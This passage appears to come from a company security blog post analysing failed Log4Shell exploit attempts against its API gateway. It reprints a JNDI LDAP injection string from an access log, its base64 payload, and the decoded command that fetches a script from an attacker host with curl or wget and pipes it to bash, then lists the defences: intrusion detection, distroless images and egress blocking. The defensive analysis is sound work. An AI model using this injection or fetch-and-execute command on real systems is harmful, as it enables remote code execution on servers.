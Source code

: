
![](/img/blog/log4j/03-elastalert.png)

The following alerts are **unsuccessful** exploit attempts our infrastructure.

Let’s take a closer look at some of these exploit attempts to see if we can learn anything..

```bash
[2021-12-10T14:05:52.612 Z] "GET / HTTP/1.1" 307 - 0 0 0 - "45.155.205.233" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0Myl8YmFzaA==}" "34b61b2d-28f6-4e89-9baf-7cd3b4e71698" "54.217.173.83:443" "-"
```
This request was hitting our public API gateway with a base64 encoded payload. Decoding this payload we can see what the actor was trying to accomplish:

base64 
```
KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0Myl8YmFzaA==
```

base64 decoded
```
(curl -s 45.155.205.233:5874/54.217.173.83:443||wget -q -O- 45.155.205.233:5874/54.217.173.83:443)|bash
```

If this attack was successful, we can see that the actor is attempting to download a malicious exploit first with `curl`, then attempt with `wget` and then execute with the downloaded payload with bash. If this attack was successful we would have received an alert from our Host-based Intrusion Detection System (HIDs) from [Falco](https://github.com/falcosecurity/falco). In addition, it shows the importance of ensuring our images are distroless, without bash and OS dependencies, and blocking egress network traffic if possible, as this would also prevent such an attack.

